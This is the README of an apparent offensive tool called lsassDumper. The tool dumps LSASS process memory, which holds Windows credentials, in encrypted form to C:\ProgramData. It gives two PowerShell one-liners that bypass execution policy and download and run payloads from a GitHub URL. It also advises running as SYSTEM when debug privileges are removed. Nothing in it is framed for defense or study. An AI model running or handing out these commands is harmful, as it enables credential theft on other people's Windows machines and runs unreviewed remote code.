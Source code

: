 # lsassDumper

This project provide the necessary payloads to perform an encrypted dump of LSASS in C:\ProgramData


To use hosted payloads (download the b64 stage from this repo at runtime), execute :

`powershell -ep bypass -noexit -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj.log)"`

To use the standalone powershell payload, execute :


`powershell -ep bypass -noexit -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj2.log)"`

If SeDebugPrivilege is revoked from local admin accounts, you might want to execute the command as SYSTEM. 
